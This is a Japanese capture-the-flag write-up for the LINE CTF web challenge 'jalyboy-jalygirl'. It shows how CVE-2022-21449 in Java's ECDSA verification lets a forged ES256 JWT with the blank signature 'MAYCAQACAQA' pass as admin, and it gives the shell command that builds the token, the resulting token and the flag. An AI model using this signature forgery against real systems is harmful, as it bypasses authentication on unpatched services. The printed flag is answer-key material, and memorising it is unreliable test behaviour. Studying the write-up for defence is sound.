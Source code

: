 # jalyboy-jalygirl:Web:100pts
It's almost spring. Do you like Java?  
[http://34.85.123.82:10001/](http://34.85.123.82:10001/)  

[jalyboy-jalygirl_2df1a2ce1e35d8c9cd97cf59436ec135.zip](jalyboy-jalygirl_2df1a2ce1e35d8c9cd97cf59436ec135.zip)  

# Solution
URLとソースが渡される。  
[jalyboy-baby](../jalyboy-baby)の続き問題のようだ。  
![site.png](site/site.png)  
URLクエリは以下であった。  
```
http://34.85.123.82:10001/?j=eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.QZcJ_5i4ODRj9Vzf0BOWCPlrg4vPaVQeFuKm6yTCxWj1NqK5icY9LdOr1i44AIeufkF9nW7NANjEZfrx3p2M9A
```
ソースの主要部分は以下のように変更されていた。  
```java
~~~
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
署名が検証されている。  
通常は改竄が不可能であるはずなので、既知の脆弱が怪しい。  
build.gradleを見ると以下の通りであった。  
```gradle
~~~
dependencies {
	implementation 'org.springframework.boot:spring-boot-starter-freemarker'
	implementation 'org.springframework.boot:spring-boot-starter-web'
	annotationProcessor 'org.springframework.boot:spring-boot-configuration-processor'
	testImplementation 'org.springframework.boot:spring-boot-starter-test'
	implementation 'io.jsonwebtoken:jjwt-api:0.11.2'
	runtimeOnly 'io.jsonwebtoken:jjwt-impl:0.11.2',
			// Uncomment the next line if you want to use RSASSA-PSS (PS256, PS384, PS512) algorithms:
			//'org.bouncycastle:bcprov-jdk15on:1.60',
			'io.jsonwebtoken:jjwt-jackson:0.11.2' // or 'io.jsonwebtoken:jjwt-gson:0.11.2' for gson
}
~~~
```
`jjwt`の`0.11.2`であることがわかる。  
「jjwt 0.11.2 CVE」とGoogle検索すると[JVM Vulnerabiliity CVE-2022-21449](https://github.com/jwtk/jjwt/issues/726)なるIssueが見つかる。  
[Release Notesの0.11.3](https://github.com/jwtk/jjwt/blob/master/CHANGELOG.md#0113)を見ると、報告者がLINEなので十中八九これだろう。  
署名を`MAYCAQACAQA`にするといいらしい。  
以下のように行う。  
```bash
$ # eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.QZcJ_5i4ODRj9Vzf0BOWCPlrg4vPaVQeFuKm6yTCxWj1NqK5icY9LdOr1i44AIeufkF9nW7NANjEZfrx3p2M9A
$ echo "eyJhbGciOiJFUzI1NiJ9.`echo -n '{ "sub": "admin" }' | base64`.MAYCAQACAQA"
eyJhbGciOiJFUzI1NiJ9.eyAic3ViIjogImFkbWluIiB9.MAYCAQACAQA
```
URLクエリに設定してアクセスする。  
![flag.png](site/flag.png)  
flagが得られた。  

## LINECTF{abaa4d1cb9870fd25776a81bbd278932}